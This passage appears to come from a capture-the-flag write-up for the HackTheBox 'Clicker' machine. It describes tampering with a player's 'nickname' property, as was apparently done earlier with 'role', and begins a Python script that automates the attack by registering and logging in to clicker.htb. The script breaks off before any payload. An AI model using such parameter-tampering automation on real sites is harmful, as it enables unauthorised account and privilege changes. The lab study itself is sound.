 Just in the same we have altered the role property, we can alter the nickname property. The code in db_utils.php can confirme the exact property name :

```php
$stmt = $pdo->prepare("SELECT nickname, clicks, level FROM players WHERE username = :player");
```

In order to automate the whole process, here is a python script to do it :

```python
#!/usr/bin/python3

import requests
import urllib.parse

BaseUrl="http://clicker.htb"
SessionCookie = None

# ---------------------------------------------------------
def printHttpResponse(httpRequest):
    print( "HTTP Response:" )
    print( "   Response code: " + str( httpRequest.status_code ) )
    print("   Headers:")
    for h in httpRequest.headers:
        print( "      " + h + ": " + httpRequest.headers[h] )
    print("   Cookies:")
    cookies = requests.utils.dict_from_cookiejar(httpRequest.cookies)
    for cooky in cookies.keys():
        print( "      " + str(cooky) + " : " + cookies[cooky] )
    print( "   Content:" )
    print( str(httpRequest.content) )

# ---------------------------------------------------------
def httpGet(url):
    with requests.Session() as s:
        print("URL: " + url)
        print("Session cookie: " + str(SessionCookie) )
        r = s.get(BaseUrl + url, cookies=SessionCookie, allow_redirects=False)
        printHttpResponse( r )
        return r

def httpPost(url,payload):
    with requests.Session() as s:
        print("URL: " + url)
        print("Payload: " + str(payload) )
        print("Session cookie: " + str(SessionCookie) )
        r = s.post(BaseUrl + url, cookies=SessionCookie, data=payload, allow_redirects=False)
        printHttpResponse( r )
        return r

# ---------------------------------------------------------
def commandCreatePlayer():
    print("[ ] Register")
    payload = {'username':'john', 'password':'doe'}
    r = httpPost('/create_player.php', payload )

    assert r.status_code == 302
    assert r.headers['Location'] == "/index.php?msg=Successfully registered"

    return r

# ---------------------------------------------------------
def commandLogin():
    print("[ ] Login")
    payload = {'username':'john', 'password':'doe'}
```